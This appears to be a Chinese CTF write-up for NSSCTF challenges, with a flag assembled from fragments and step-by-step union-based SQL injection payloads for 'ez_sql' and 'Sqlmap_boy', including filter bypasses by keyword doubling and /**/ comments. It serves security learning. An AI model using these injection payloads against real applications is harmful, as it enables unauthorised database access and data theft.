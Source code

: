 拼接flag

```
NSSCTF{281fa5a9-372c
TF{281fa5a9-372c-42e
1fa5a9-372c-42e0-820
9-372c-42e0-820b-8ec
b-8ec92617a8e7}

NSSCTF{281fa5a9-372c-42e0-820b-8ec92617a8e7}
```



### [SWPUCTF 2022 新生赛]ez_sql

![image-20240901223434041](https://gitee.com/bx33661/image/raw/master/path/image-20240901223434041.png)

> 联合注入，主要是采用不同方式绕过被ban的语法

发现`or`被消除了，双写`or`，同时空格被过滤这里采用`/**/`

```
nss=1'oorrder/**/by/**/3%23 

nss=0'ununionion/**/select/**/1,2,database()%23 

nss=0'/**/ununionion/**/select/**/1,2,group_concat(table_name)/**/from/**/infoorrmation_schema.tables/**/where/**/table_schema='NSS_db';#

nss=0'ununionion/**/select/**/1,2,group_concat(column_name)/**/from/**/infoorrmation_schema.columns/**/where/**/table_name='NSS_tb';#

nss=0'ununionion/**/select/**/1,2,group_concat(flll444g)/**/from/**/NSS_tb;#

nss=0'ununionion/**/select/**/1,2,group_concat(Secr3t)/**/from/**/NSS_tb;#
```

最后得到flag

```
flag: NSSCTF{5bc4c4a6-005a-4523-a6b1-40076d3489f7}
```



## Nssctf [MoeCTF 2022]Sqlmap_boy

![image-20240901165733983](https://gitee.com/bx33661/image/raw/master/path/image-20240901165733983.png)

我们采用`admin/admin`进入，发现`?id=`的注入口

```
secrets.php?id=1'order by 1,2,3--+

secrets.php?id=-1'union select 1,2,database()--+

secrets.php?id=-1' union select 1,2,group_concat(table_name)from information_schema.tables where table_schema='moectf'--+

secrets.php?id=-1' union select 1,2,group_concat(column_name)from information_schema.columns where table_name='flag'--+

secrets.php?id=-1' union select 1,2,group_concat(flAg)from moectf.flag--+
```
